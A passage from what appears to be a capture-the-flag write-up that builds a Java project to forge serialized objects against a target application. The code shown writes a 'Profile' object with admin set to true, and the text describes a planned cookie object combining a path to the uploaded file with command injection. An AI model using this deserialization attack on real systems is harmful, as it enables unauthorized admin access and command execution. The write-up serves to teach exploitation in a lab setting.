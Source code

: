 

I'll need to set the `mainClass` attribute. Now on building:



    oxdf@hacky$ java -jar target/exploit-1.0-SNAPSHOT.jar 
    Hello World!



### Create Malicious Objects

#### Strategy

Now I want to create a main function to do malicious things. The project
builder left this in place:



    package com.admin.security.src;

    /**
     * Hello world!
     *
     */
    public class App
    {
        public static void main( String[] args )
        {
            System.out.println( "Hello World!" );
        }
    }



I'll change it to have it generate two things:

-   A simple serialized `Profile` object that has `admin` set to true.
-   A serialized `UserProfile` object for the cookie that has the path
    that both gets to the uploaded profile and has command injection.

#### Profile Object

To create a `Profile` object, I'll just create one like in the code I
have, and then I'll write it to a file using the `SerUtils` and
`FileUtil`:



    package com.admin.security.src;

    import com.admin.security.src.model.Profile;
    import com.admin.security.src.utils.SerUtils;
    import com.admin.security.src.utils.FileUtil;
    import java.util.ArrayList;
    import java.io.File;
    import java.io.IOException;

    public class App {
        public static void main( String[] args ) throws IOException {
            Profile profile = new Profile(new ArrayList<>(), true);
            FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));
        }
    }
